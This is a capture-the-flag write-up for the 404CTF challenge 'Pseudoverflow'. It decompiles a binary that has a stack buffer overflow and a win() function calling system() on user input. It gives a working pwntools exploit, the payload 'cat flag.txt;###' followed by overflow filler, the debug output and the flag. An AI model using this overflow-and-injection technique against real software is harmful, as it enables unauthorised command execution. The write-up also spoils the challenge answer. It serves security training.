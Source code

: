 # Pseudoverflow

## Challenge
Course annuelle

Bienvenue à tous dans la course annuelle du 404CTF : les inscriptions sont ouvertes !! Votre pseudo sera-t-il à la hauteur de nos attentes ?

Objectif: lire le fichier flag.txt

## Inputs
- Target: challenges.404ctf.fr:31958
- Binary: [course](./course)

## Analysis
Throwing the binary at `Ghidra` shows the following `main` function:

```c
undefined8 main(void)

{
  int iVar1;
  char local_78 [106];
  undefined4 local_e;
  undefined2 local_a;

  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  local_e = 0x64726570;
  local_a = 0x73;
  puts(&DAT_00102008);
  fgets(local_78,0x100,stdin);
  iVar1 = strcmp((char *)&local_e,"gagne");
  if (iVar1 == 0) {
    win(local_78);
  }
  else {
    puts("Nous vous recontacterons dans les prochaines semaines.");
  }
  return 0;
}
```

The goal is to call function `win`, passing it the input command to be executed by `system` call:

```c
void win(char *param_1)

{
  system(param_1);
  return;
}
```

We can overflow variable `local_78` in the call to `fgets` and write `"gagne"` in next variable `local_e`.

## Solution
We can, for example, send this input command, which will exactly write `"gagne"` in variable `local_e`, pass the string comparison, hit the `win` function and only execute the command `cat flag.txt` in the end, since the rest of the command is commented out:

> cat flag.txt;###gagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagne\x00

```python
from pwn import *

r = remote('challenges.404ctf.fr', 31958)
# s = b'cat flag.txt;###' + b'gagne'*19 + b'\x00'
s = b'cat flag.txt;###gagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagnegagne\x00'
assert len(s) == 112

r.recvline()
r.recvline()
r.sendline(s)
r.recvline()
```

Here we see it in action against the target:

```console
$ python3 sol.py DEBUG
[+] Opening connection to challenges.404ctf.fr on port 31958: Done
[DEBUG] Received 0x69 bytes:
    00000000  42 69 65 6e  76 65 6e 75  65 20 c3 a0  20 6c 61 20  │Bien│venu│e ··│ la │
    00000010  63 6f 75 72  73 65 20 61  6e 6e 75 65  6c 6c 65 20  │cour│se a│nnue│lle │
    00000020  64 75 20 34  30 34 43 54  46 21 21 0a  50 6f 75 72  │du 4│04CT│F!!·│Pour│
    00000030  20 70 6f 75  76 6f 69 72  20 70 61 72  74 69 63 69  │ pou│voir│ par│tici│
    00000040  70 65 72 2c  20 6e 6f 75  73 20 61 76  6f 6e 73 20  │per,│ nou│s av│ons │
    00000050  62 65 73 6f  69 6e 20 64  65 20 76 6f  74 72 65 20  │beso│in d│e vo│tre │
    00000060  70 73 65 75  64 6f 20 3a  0a                        │pseu│do :│·│
    00000069
[DEBUG] Sent 0x71 bytes:
    00000000  63 61 74 20  66 6c 61 67  2e 74 78 74  3b 23 23 23  │cat │flag│.txt│;###│
    00000010  67 61 67 6e  65 67 61 67  6e 65 67 61  67 6e 65 67  │gagn│egag│nega│gneg│
    00000020  61 67 6e 65  67 61 67 6e  65 67 61 67  6e 65 67 61  │agne│gagn│egag│nega│
    00000030  67 6e 65 67  61 67 6e 65  67 61 67 6e  65 67 61 67  │gneg│agne│gagn│egag│
    00000040  6e 65 67 61  67 6e 65 67  61 67 6e 65  67 61 67 6e  │nega│gneg│agne│gagn│
    00000050  65 67 61 67  6e 65 67 61  67 6e 65 67  61 67 6e 65  │egag│nega│gneg│agne│
    00000060  67 61 67 6e  65 67 61 67  6e 65 67 61  67 6e 65 00  │gagn│egag│nega│gne·│
    00000070  0a                                                  │·│
    00000071
[DEBUG] Received 0x10 bytes:
    b'404CTF{0v3rfl0w}'
```

## Python code
Complete solution in [sol.py](./sol.py)

## Flag
> 404CTF{0v3rfl0w}
